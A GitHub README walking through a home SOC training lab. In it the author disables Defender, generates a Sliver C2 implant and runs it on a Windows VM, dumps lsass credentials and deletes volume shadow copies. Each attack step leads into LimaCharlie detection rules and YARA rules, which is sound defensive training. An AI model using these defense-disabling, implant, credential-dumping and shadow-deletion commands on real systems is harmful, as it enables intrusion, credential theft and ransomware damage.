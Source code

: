 # SOC-MOCK
![Image](https://imgur.com/IurHdlf.png)
## Objective 
This project aimed to build a realistic Security Operations Center (SOC) training environment focusing on practical skills for detecting and responding to cyber threats.
- Advanced threat detection tools like Sysmon and LimaCharlie EDR were deployed for real-time analysis
- Adversary techniques were simulated, and threat responses were automated to stay ahead of potential risks
- YARA rules were integrated to enhance malware detection capabilities
<br><br>

## Components

- **VirtualBox**: Used for creating and managing virtual machines
- **Ubuntu Server VM**: Used to deploy the Sliver C2 framework, which acts as a simulated attacker tool
- **Windows VM**: Used as victim endpoint device
- **LimaCharlie EDR**: An EDR platform used to collect, analyze logs and investigate telemetry from the Windows VM
- **Sliver C2**: A simulated attacker tool used to create a Command & Control (C2) server on the Ubuntu VM
- **YARA Rules**: Specific sets of instructions used to identify malware based on patterns
- **Sysmon**: Windows system service used to monitor and log system activity to the event log
- **VirusTotal**: A service for analyzing suspicious files and URLs for malware
- **NAT Network**: Configured in VirtualBox for network simulation

<details>
  <summary><h2><b>Section 1: Setting up the Virtual Environment</b></h2></summary>
  This section will guide through the setup of virtual environment using VirtualBox (If you want you, can use VMware as well). Configure a NAT network and install two virtual machines – one for Ubuntu Server and another for a Windows 10. <br><br>

   **Step 1: Download and setup Virtualbox**:  
    You can download Virtualbox from here. Setup is pretty straightforward
    <br><br>
   **Step 2: Create a New VM for Windows 10**:  
   Next, set up a new virtual machine in VirtualBox for Windows 10.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 50 GB
    <br><br>
    
   **Step 3: Create a New VM for Ubuntu Server**:  
    Now, set up a new virtual machine in VirtualBox for Ubuntu Server.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 20 GB
   - During OS install, **leave defaults as is**
  ![Image](https://imgur.com/GDfOZmg.png)
    <br><br>
  - After installation it should look like this:
  ![Image](https://imgur.com/9VNGxVp.png)
    <br><br>
       
   **Step 4: Configure Windows VM**:  
    Permanently disable Microsoft Defender so it doesn’t interfere with the fun stuff we’re planning. This is pretty tricky (especially in Windows 11) as Defender will turn itself back on.
1. Disable Tamper Protection
  - Go to "Windows Security"
  - Click “Virus & threat protection”
  - Under “Virus & threat protection settings” click “Manage settings”
  - Toggle OFF the “Tamper Protection” switch. When prompted, click “Yes”
![Image](https://imgur.com/iTuPTwi.png)
  - Toggle every other option OFF as well
2. Permanently Disable Defender via Group Policy Editor
  - Click the “Start” menu icon
  - Type “cmd” into the search bar within the Start Menu
  - Right+Click “Command Prompt” and click “Run as administrator”
  - Run the following command
```
gpedit.msc
```
  - Inside the Local Group Policy Editor
  - Click Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus
  - Double-click “Turn off Microsoft Defender Antivirus”
  - Select “Enabled” (If you enable this policy setting, Defender doesn't run, and will not scan for malware or other potentially unwanted software)
  - Click "Apply"
![Image](https://imgur.com/9bsP5Lf.png)
3. Permanently Disable Defender via Registry
  - From the same administrative cmd, copy/paste this command and press Enter
<br>

```
REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

</br>

4. Prepare to boot into Safe Mode to disable all Defender services
  - Click the “Start” menu icon
  - Type “msconfig” into the search bar
  - Go to “Boot” tab and select “Boot Options”
  - Check the box for “Safe boot” and “Minimal”
![Image](https://imgur.com/0K1OBWq.png)
  - Click Apply and OK
  - System will restart into Safe Mode

5. Now, in Safe Mode, we’ll disable some services via the Registry
  - Press the “Win + R"
  - Type “regedit” into the search bar and hit Enter
  - For each of the following registry locations, browse to the key, find the “Start” value, and change it to "4"
![Image](https://imgur.com/IWskQZt.png)
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sense
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdBoot
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDefend
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisDrv
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisSvc
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdFilter

6. Leave Safe Mode the same way we got into it
  - Uncheck the box for “Safe boot”
  - System will restart into normal desktop environment, hopefully Defender-free
    <br><br>
</details>

<details>
  <summary><h2><b>Section 2: Install Sysmon in Windows VM</b></h2></summary>

This is actually optional in this project, but it’s a must-have analyst tool for getting very granular telemetry on your Windows endpoint. You can read more about it
[here](https://www.learn.microsoft.com/en-us/sysinternals/downloads/sysmon/). 

1. **Launch an Administrative PowerShell console for the following commands:**

- Click the “Start” menu icon
- Type “Powershell” into the search bar within the Start Menu
- Click “Windows PowerShell” and click “Run as administrator”

2. **Download Sysmon with the following command:**
```
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
```
3. **Unzip sysmon.zip**
```
Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
```
4. **Download SwiftOnSecurity’s Sysmon config**
```
Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
5. **Install Sysmon with Swift’s config**
```
C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
![Image](https://imgur.com/eUuEwgD.png)

6. **Check Sysmon64 service is installed and running**
```
Get-Service sysmon64
```
7. **Check for the presence of Sysmon Event Logs**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 10
```
  <br><br>
</details>

<details>
  <summary><h2><b>Section 3: Install LimaCharlie EDR on Windows VM</b></h2></summary>

  [LimaCharlie](https://www.limacharlie.io/) 
  is a very powerful SecOps Cloud Platform. It not only comes with a cross-platform EDR agent, but also handles all of the log shipping/ingestion and has a threat detection engine. In free version you can create for up to two systems which is great for projects like this.

1. **Create a free LimaCharlie account**
- LimaCharlie will ask you a few questions about your role. Answer however you like.

2. **Create an organization**

Name: *Anything*

Data Residency Region: *Closest to you*

Demo Configuration Enabled: *Disabled*

Template: *Extended Detection & Response Standard*
![Image](https://imgur.com/T1INyuQ.png)

3. **Click "Add a Sensor"**

- Select Windows
- Provide a description such as: Windows VM - Lab
- Click Create
- Select the Installation Key we just created
![Image](https://imgur.com/ba1VqUg.png)
- Select the "x86-64 (.exe)" sensor
![Image](https://imgur.com/mP2CI8j.png)



- In Windows VM, open an Administrative PowerShell and paste the following commands:
```
cd C:\Users\User\Downloads
```
```
Invoke-WebRequest -Uri https://downloads.limacharlie.io/sensor/windows/64 -Outfile C:\Users\User\Downloads\lc_sensor.exe
```
![Image](https://imgur.com/LGFmfRt.png)
- Shift into a standard admin cmd

- Copy the install command provided by LimaCharlie which contains the installation key. Paste this command into your open terminal.
![Image](https://imgur.com/D0UvIR4.png)

- If everything worked correctly, in the LimaCharlie web UI you should see the sensor reporting in


4. **Configure LimaCharlie to also ship the Sysmon event logs alongside its own EDR telemetry**

- In the left-side menu, click “Artifact Collection”
- Next to “Artifact Collection Rules” click “Add Rule”
```
Name: windows-sysmon-logs
Platforms: Windows
Path Pattern: wel://Microsoft-Windows-Sysmon/Operational:*
Retention Period: 10
```
- Click “Save Rule”
![Image](https://imgur.com/VgxX27Q.png)

LimaCharlie will now start shipping Sysmon logs which provide a wealth of EDR-like telemetry, some of which is redundant to LC’s own telemetry, but Sysmon is still a very power visibility tool that runs well alongside any EDR agent.

The other reason we are ingesting Sysmon logs is that the built-in Sigma rules we previously enabled largely depend on Sysmon logs as that is what most of them were written for.

> Now would be a good time to Snapshot your Windows VM
</details>

<details>
  <summary><h2><b>Section 4: Setup Attack System </b></h2></summary>
  I recommend using an SSH client to access the Ubuntu VM so that you can easily copy/paste commands.

1. **Open your CLI**

```
ssh username@[Linux_VM_IP]
```

2. **Now, from within this new SSH session, proceed with the following instructions to setup our attacker C2 server. First, gain access to the root shell to make life easier.**

```
sudo su
```

3. **Run the following commands to download Sliver, a Command & Control (C2) framework by BishopFox. I recommend copy/pasting the entire block as there is line-wrapping occurring.**

- Download Sliver Linux server binary
```
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
```
- Make it executable
```
chmod +x /usr/local/bin/sliver-server
```
- install mingw-w64 for additional capabilities
```
apt install -y mingw-w64
```
- Create our future working directory
```
mkdir -p /opt/sliver
```
![Image](https://imgur.com/LCfhKok.png)

> Explore the LimaCharlie web interface to learn more about what it can do!
</details>
<details>
  <summary><h2><b>Section 5: Generate the Command & Control payload </b></h2></summary>
  Either from your SSH session or directly from your Ubuntu Server, take the following actions:
  <br></br>

  1. **Access root shell and change dir to Sliver install**

```
sudo su
cd /opt/sliver
```

  2. **Launch Sliver server**

```
sliver-server
```
![Image](https://imgur.com/8DsuXyT.png)
  3. **Generate C2 session payload. Use your Linux VM’s IP address**
```
generate --http [Linux_VM_IP] --save /opt/sliver
```
![Image](https://imgur.com/EN108X6.png)
  4. **Confirm the new implant configuration**
```
implants
```
  5. **Now we have a C2 payload we can drop onto our Windows VM. Exit Sliver for now.**
```
exit
```

  6. **To easily download the C2 payload from the Linux VM to the Windows VM, use this python trick that spins up a temp web server**
```
cd /opt/sliver
python3 -m http.server 80
```
![Image](https://imgur.com/gQG90re.png)
  7. **Switch to the Windows VM and launch an Admin PowerShell console to download the implant from Ubuntu server**
```
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
```
![Image](https://imgur.com/iU5lry0.png)
> Now would be a good time to snapshot your Windows VM, before we execute the malware.

</details>
<details>
  <summary><h2><b>Section 6: Start Command & Control Session  </b></h2></summary>

1. **Now that the payload is on the Windows VM, switch back to the Linux VM SSH session and enable the Sliver HTTP server to catch the callback**

- Terminate the python web server by pressing "Ctrl + C"
- Now, relaunch Sliver
```
sliver-server
```
- Start the Sliver HTTP listener
```
http
```
![Image](https://imgur.com/2RqMkmX.png)
- If you get an error starting the HTTP listener, reboot the VM

2. **Return to the Windows VM and execute the C2 payload from its download location using the same admin PowerShell prompt**
```
C:\Users\User\Downloads\<your_C2-implant>.exe
```
![Image](https://imgur.com/N8Z5Xo1.png)
3. **Within a few moments, you should see your session check in on the Sliver server**
![Image](https://imgur.com/1Rs38Xn.png)
4. **Verify your session in Sliver, and note its Session ID**
```
sessions
```
5. **To interact with your new C2 session, type the following command into the Sliver shell**
```
use [session_id]
```

> c0ngratulations! you pwned your Windows VM
6. **Now, run a few basic commands**

- To get info about the session
```
info
```
- Find out the user and learn his privileges
```
whoami
```
![Image](https://imgur.com/IO9bJZi.png)
```
getprivs
```
![Image](https://imgur.com/Krpmh17.png)
> If your implant was properly run with Admin rights, you’ll notice you have a few privileges that make further attack activity much easier, such as “SeDebugPrivilege” — if you don't see these privileges, make sure you ran the implant from an Admin command prompt
- Identify implant’s working dir
```
pwd
```
- Examine network connections occurring on the remote system
```
netstat
```
- Identify running processes on the remote system
```
ps -T
```
![Image](https://imgur.com/AIMklUP.png)
> Notice that Sliver highlights its own process in green and any defensive tools in red. This is how attackers become aware of what security products a victim system using.
  </details>

<details>
  <summary><h2><b>Section 7: Observe EDR Telemetry</b></h2></summary>

1. **Hop into the LimaCharlie web UI and check out some basic features**

- Click “Sensors” on left menu

- Click your active Windows sensor


- On the new left-side menu for this sensor, click “Processes”


> Explore what is returned in the process tree. Hover over some of the icons to see what they represent

![Image](https://imgur.com/GZ9FZm0.png)
Knowing common processes on a system is very important. As professionals say at SANS, *“you must know normal before you can find evil”* Check out this [“Hunt Evil”](https://www.sans.org/posters/hunt-evil/) poster from SANS.


2. **One of the easiest ways to spot unusual processes is to simply look for ones that are NOT signed**
- The C2 implant shows as not signed, and is also active on the network.

![Image](https://imgur.com/2frmDNQ.png)

- Notice how quickly we are able to identify the destination IP this process is communicating with.

3. **Now click the “Network” tab on the left-side menu**

- Explore what is returned in the network list. "Ctrl+F" to search for your implant name

4. **Now click the “File System” tab on the left-side menu**

- Browse to the location we know our implant to be running from

![Image](assets/3.gif)

5. **Inspect the hash of the suspicious executable by scanning it with VirusTotal**

> “*Item not found*” on VirusTotal doesn't mean that this file is innocent, it just might not that scanned before. This makes sense because you just generated this payload, so of course it’s not likely to be seen by VirusTotal before. So, if you already suspect a file to be possible malware, but VirusTotal has never seen it before, trust your instincts. This actually makes a file even more suspicious because nearly everything has been seen by VirusTotal, so your sample may have been custom-crafted/targeted.

6. **Click “Timeline” on the left-side menu of our sensor. This is a real-time view of EDR telemetry + event logs streaming from this system**

- Read about the various EDR events in the LimaCharlie docs.

- Filter your timeline with known IOCs (indicators of compromise) such as the name of your implant or the known C2 IP address

- If you scroll back far enough, should be able to find the moment your implant was created on the system, and when it was launched shortly after, and the network connections it created immediately after

![Image](https://imgur.com/pV7Z8qm.png)

7. **Examine the other events related to your implant process** 

- you’ll see it is responsible for other events such as “SENSITIVE_PROCESS_ACCESS” from when you enumerated your privileges in an earlier step. This particular event will be useful later on when you will craft your first detection rule

> I recommend spending more time exploring LimaCharlie telemetry to familiarize yourself not only with the known-bad events, but also the abundance of “normal” things happening on your “idle” Windows VM.

  </details>

<details>
  <summary><h2><b>Section 8: Wear the Black Hat  </b></h2></summary>

Go back into Sliver C2 session and do some shady stuff that you would be able to detect.

1. **Drop into a C2 session on your victim**

2. **Run the following commands within the Sliver session on your victim host**

- First, we need to check our privileges to make sure we can perform privileged actions on the host
```
getprivs
```
- A powerful command to check privilege for *SeDebugPrivilege* which opens the door for many things. If you’ve got that, we’re good. If you don’t, you need to relaunch your C2 implant with administrative rights

- Next, do something adversaries love to do for stealing credentials on a system — *dump the lsass.exe process from memory.* Read more about this technique [here](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)
```
procdump -n lsass.exe -s lsass.dmp
```
This will dump the remote process from memory, and save it locally on your Sliver C2 server.

> NOTE: This will fail if you did not launch your C2 payload with admin rights on the Windows system. Even if it fails it will generate telemetry need.

2. **Now Let’s Detect It**

Now, switch over to LimaCharlie to find the relevant telemetry

- Since *lsass.exe* is a known sensitive process often targeted by credential dumping tools, any good EDR will generate events for this

- Go to "Timeline" of your Windows VM sensor and use the “Event Type Filters” to filter for “SENSITIVE_PROCESS_ACCESS” events.
There will likely be many of these, but pick any one of them as there isn’t much else on this system that will be legitimately accessing "lsass"
![Image](https://imgur.com/Su8gSsG.png)


- Now that we know what the event looks like when credential access occurred, we have what we need to craft a detection & response (D&R) rule that would alert anytime this activity occurs
![Image](https://imgur.com/mNWqOEt.png)
- Click the button in the screenshot to begin building a detection rule based on this event

- In the “Detect” section of the new rule, remove all contents and replace them with this
```
event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe
```
![Image](https://imgur.com/oxRKaBy.png)
- We’re specifying that this detection should only look at *"SENSITIVE_PROCESS_ACCESS"* events where the victim or target process ends with "lsass.exe"

- In the “Respond” section of the new rule, remove all contents and replace them with this
```
action: report
name: LSASS access
```
- We’re telling LimaCharlie to simply generate a detection “report” anytime this detection occurs. We could ultimately tell this rule to do all sorts of things, like terminate process chain, etc.

- Now let’s test our rule against the event we built it for. Lucky for us, LimaCharlie carried over that event it provides a quick and easy way to test the D&R logic. Click “Target Event” below the D&R rule you just wrote. Here you will see the raw event we observed in the timeline earlier

- Scroll to the bottom of the raw event and click “Test Event” to see if our detection would work against this event.
![Image](https://imgur.com/W00C0rY.png)
- Notice that we have a “Match” and the D&R engine tells you exactly what it matched on.
![Image](https://imgur.com/mM1Vae5.png)

- Scroll back up and click “Save Rule” and give it the name “LSASS Accessed” and be sure it is enabled

3. **Return to your Sliver server console, back into your C2 session, and rerun same "procdump command"**

- After rerunning the procdump command, go to the “Detections” tab on the LimaCharlie main left-side menu.
![Image](https://imgur.com/buIAvmX.png)

> Congratulations! You’ve just detected a threat with your own detection signature! Expand a detection to see the raw event

![Image](https://imgur.com/FZFn6xt.png)

- Notice you can also go straight to the timeline where this event occurred by clicking “View Event Timeline” from the Detection entry
  </details>

  <details>
  <summary><h2><b>Section 9: Blocking Attacks</b></h2></summary>
Wouldn’t it be great if we could block the threat rather than just generate an alert?

Craft a rule that would be very effective at disrupting a ransomware attack by looking for a predictable action that ransomware tends to take: [Deletion of Volume Shadow Copies](https://redcanary.com/blog/its-all-fun-and-games-until-ransomware-deletes-the-shadow-copies/)

> Why This Rule? "Volume Shadow Copies" provide a convenient way to restore individual files or even an entire file system to a previous state which makes it a very attractive option for recovering from a ransomware attack. For this reason, it’s become very predictable that one of the first signs of an impending ransomware attack is the "deletion of volume shadow copies".

A basic command that would accomplish this
```
vssadmin delete shadows /all
```

1. **Get back into Sliver C2 shell**

> If you have issues reestablishing your HTTP listener, try rebooting your Ubuntu system

In your Sliver C2 shell on the victim, run this command:
```
shell
```
- When prompted with “This action is bad OPSEC, are you an adult?” type "Yes" if you are an adult, "No" if you are not :) and hit enter

In the new System shell, run the following command:
```
vssadmin delete shadows /all
```
- The output is not important as there may or not be Volume Shadow Copies available on the VM to be deleted, but running the command is sufficient to generate the telemetry we need

Run this command to verify we still have an active system shell:
```
whoami
```
2. **Browse over to LimaCharlie’s detection tab to see if default Sigma rules picked up on our noise**
![Image](https://imgur.com/U0tHpxW.png)

- Click to expand the detection and examine all of the metadata contained within the detection itself. One of the great things about Sigma rules is they are enriched with references to help understand why the detection exists in the first place

- Click "View Event Timeline" to see the raw event that generated this detection
![Image](https://imgur.com/v8rFY9i.png)
- Craft a Detection & Response (D&R) rule from this event
![Image](https://imgur.com/Cjq9dBC.png)

From this D&R rule template, we can begin crafting our response action that will take place when this activity is observed. Add the following *"Response"* rule to the Respond section:
```
- action: report
  name: vss_deletion_kill_it
- action: task
  command:
    - deny_tree
    - <<routing/parent>>
```
- The “action: report” section simply creates a Detection report to the “Detections” tab

- The “action: task” section is what is responsible for killing the parent process responsible with "deny_tree" for the *vssadmin delete shadows /all command*

- Save your rule with the following name: vss_deletion_kill_it

3. **Test it**

Now return to Sliver C2 session, and rerun the command and see what happens.

Run the command to delete volume shadows:
```
vssadmin delete shadows /all
```
- The command should succeed, but the action of running the command is what will trigger our D&R rule
![Image](https://imgur.com/a4Dhfxc.png)

Now, to test if our D&R rule properly terminated the parent process, check to see if you still have an active system shell by rerunning the *"whoami"* command:
```
whoami
```
- If D&R rule worked successfully, the system shell will hang and fail to return anything from the *whoami* command, because the parent process was terminated


> Note, you also may receive output such as “Shell Exited” — this is functionally the same thing as it hanging and providing no output. This is effective because in a real ransomware scenario, the parent process is likely the ransomware payload or lateral movement tool that would be terminated in this case
  </details>

  <details>
  <summary><h2><b>Section 10: Automated YARA Scanning</b></h2></summary>
The goal of this section is to take advantage of a more advanced capability of any good EDR sensor, to automatically scan files or processes for the presence of malware based on a YARA signature.
<br></br>

> What is YARA? YARA is a tool primarily used for identifying and classifying malware based on textual or binary patterns. It allows researchers and security professionals to craft rules that describe unique characteristics of specific malware families or malicious behaviors. These rules can then be applied to files, processes, or even network traffic to detect potential threats. When analyzing a compromised system, YARA helps in filtering through large amounts of data to find malicious artifacts by matching them against a set of predefined rules. This ability to create customized detection signatures is particularly useful in threat hunting and incident response, enabling fast identification of known and even previously unknown malicious elements.

There are many free and open source YARA scanners and rulesets. You can read more about YARA from [VirusTotal](https://virustotal.github.io/yara/) or explore one of the many open source [YARA rulesets](https://github.com/Yara-Rules/rules).

Prepare LimaCharlie for detecting certain file system and process activities in order to trigger YARA scans.

1. **Add a YARA signature for the Sliver C2 payload**

Since we’re dealing with the Sliver C2 payload, we can be more targeted in by using a signature specifically looking for [Sliver](https://sliver.sh/docs?name=Getting+Started). I've used UK National Cyber Security Centre [publication](https://www.ncsc.gov.uk/files/Advisory%20Further%20TTPs%20associated%20with%20SVR%20cyber%20actors.pdf) on Sliver, including YARA signatures and other useful detections.

![Image](https://imgur.com/klrX5b4.png)
- Under “Automation” > “YARA Rules”, Click Add Yara Rule

![Image](https://imgur.com/UDm7nMA.png)
- Name the rule as "sliver"
- Copy and paste the contents from the code snippet of the YARA Rules section of the [publication](https://www.ncsc.gov.uk/files/Advisory%20Further%20TTPs%20associated%20with%20SVR%20cyber%20actors.pdf) into the Rule block
- Click “Save Rule”

Now create one more YARA rule with a name "sliver-process" and Copy/Paste this:
```
rule sliver_strings {
  meta:
    author = "You"
    description = "Detects Sliver Windows and Linux implants based on obvious strings"
  strings:
    $p1 = "/sliver/"
    $p2 = "sliverpb"
  condition:
    all of ($p*)
}
```

2. **Create D&R rules that will generate alerts whenever a YARA detection occurs**

- Go to “Automation” > “D&R Rules”

- Create a new rule

In the Detect block, paste the following:
```
event: YARA_DETECTION
op: and
rules:
  - not: true
    op: exists
    path: event/PROCESS/*
  - op: exists
    path: event/RULE_NAME
```
> Notice that we’re detecting on YARA detections not involving a PROCESS object, that’ll be its own rule shortly.

In the Respond block, paste the following:
```
- action: report
  name: YARA Detection {{ .event.RULE_NAME }}
- action: add tag
  tag: yara_detection
  ttl: 80000
```
- Save the rule and title it "YARA Detection"

Create another rule and in the Detect block, paste the following:
```
event: YARA_DETECTION
op: and
rules:
  - op: exists
    path: event/RULE_NAME
  - op: exists
    path: event/PROCESS/*
```
> Notice that this detection is looking for YARA Detections specifically involving a PROCESS object.

In the Respond block, paste the following:
```
- action: report
  name: YARA Detection in Memory {{ .event.RULE_NAME }}
- action: add tag
  tag: yara_detection_memory
  ttl: 80000
```
- Save the rule and title it "YARA Detection in Memory"

3. **Test the new YARA signature**

Since we already know we have a Sliver implant sitting in the Downloads folder of our Windows VM, we can easily test our signature by initiating a manual YARA scan using the EDR sensor.

- In LimaCharlie, browse to the “Sensors List” and click on our Windows VM sensor


Access the EDR Sensor Console which allows us to run sensor commands against this endpoint


Go to "Console" and run the following command to kick off a manual YARA scan of our Sliver payload:
```
yara_scan hive://yara/sliver -f C:\Users\User\Downloads\[payload_name].exe
```
> Replace [payload_name] with your actual payload name

![Image](https://imgur.com/SsFumfj.png)
- Hit enter
- Now, also confirm that you have a new Detection on the “Detections” screen

4. **Automatically YARA scan downloaded EXEs**

- Browse to “Automation” > “D&R Rules”
- Create a new rule

In the Detect block, paste the following:
```
event: NEW_DOCUMENT
op: and
rules:
  - op: starts with
    path: event/FILE_PATH
    value: C:\Users\
  - op: contains
    path: event/FILE_PATH
    value: \Downloads\
  - op: ends with
    path: event/FILE_PATH
    value: .exe
```
> Notice that this detection is simply looking for NEW .exe files to appear in any users Downloads directory

In the Respond block, paste the following:
```
- action: report
  name: EXE dropped in Downloads directory
- action: task
  command: >-
    yara_scan hive://yara/sliver -f "{{ .event.FILE_PATH
    }}"
  investigation: Yara Scan Exe
  suppression:
    is_global: false
    keys:
      - '{{ .event.FILE_PATH }}'
      - Yara Scan Exe
    max_count: 1
    period: 1m
```
> This response action generates an alert for the EXE creation, but more importantly, kicks off a YARA scan using the Sliver signature against the newly created EXE.

- Save the rule and title it "YARA Scan Downloaded .exe"

5. **Automatically YARA scan processes launched from Downloads directory**

- Browse to “Automation” > “D&R Rules”
- Create a new rule

In the Detect block, paste the following:
```
event: NEW_PROCESS
op: and
rules:
  - op: starts with
    path: event/FILE_PATH
    value: C:\Users\
  - op: contains
    path: event/FILE_PATH
    value: \Downloads\
```
> This rule is matching any process that is launched from a user Downloads directory

In the Respond block, paste the following:
```
- action: report
  name: Execution from Downloads directory
- action: task
  command: yara_scan hive://yara/sliver-process --pid "{{ .event.PROCESS_ID }}"
  investigation: Yara Scan Process
  suppression:
    is_global: false
    keys:
      - '{{ .event.PROCESS_ID }}'
      - Yara Scan Process
    max_count: 1
    period: 1m
```
> Notice in this rule, we’re no longer scanning the "FILE_PATH", but the actual running process by specifying its "PROCESS_ID". We are also now using "sliver-process" rule

- Save the rule and title it "YARA Scan Process Launched from Downloads"

6. **Trigger the new rules**

Scanning New EXEs in Downloads dir. You don't need to re-download Sliver payload, moving it another dir and putting back is enough to trigger.
![Image](https://imgur.com/FBU0KaI.png)
Run the following PowerShell command to move your Sliver payload from Downloads to Documents:
```
Move-Item -Path C:\Users\User\Downloads\[payload_name].exe -Destination C:\Users\User\Documents\[payload_name].exe
```
Now, put it back to generate the "NEW_DOCUMENT" event for an EXE being dropped into the Downloads folder
```
Move-Item -Path C:\Users\User\Documents\[payload_name].exe -Destination C:\Users\User\Downloads\[payload_name].exe
```
> Replace [payload_name] with your actual payload name

Head over to your Detections tab and see what happened. It may take a moment.
![Image](https://imgur.com/yN7iGRF.png)
- As you can see an initial alert for EXE dropped in Downloads directory followed shortly by a YARA detection once the scan kicked off and found Sliver inside the EXE

7. **Scanning processes launched from Downloads**

Now test "NEW_PROCESS" rule to scan running processes launched from Downloads dir.
![Image](https://imgur.com/dbznaGt.png)
- Launch an Administrative PowerShell prompt

First, check for any existing instances of Sliver C2 and kill it
```
Get-Process [payload_name] | Stop-Process
```
Execute your Sliver payload to create the "NEW_PROCESS" event we need to trigger the scanning of a process launched from the Downloads dir:
```
C:\Users\User\Downloads\[payload_name].exe
```
Head over to your Detections tab and see what happened!
![Image](https://imgur.com/ioH03cw.png)
- You should see an initial alert for Execution from Downloads directory followed shortly by a YARA detection in Memory once the scan kicked off and found Sliver inside the EXE

```
░██▄─░█▌─░▄█▀▄─░▐██░██───░▐█▀▀░▐█▀█▄──░▐██░█▀█▀█░█ 
░▐█░█░█─░▐█▄▄▐█─░█▌░██───░▐█▀▀░▐█▌▐█───░█▌──░█───▀ 
░██─░██▌░▐█─░▐█░▐██░██▄▄█░▐█▄▄░▐█▄█▀──░▐██─░▄█▄─░▄ 
```
  </details>
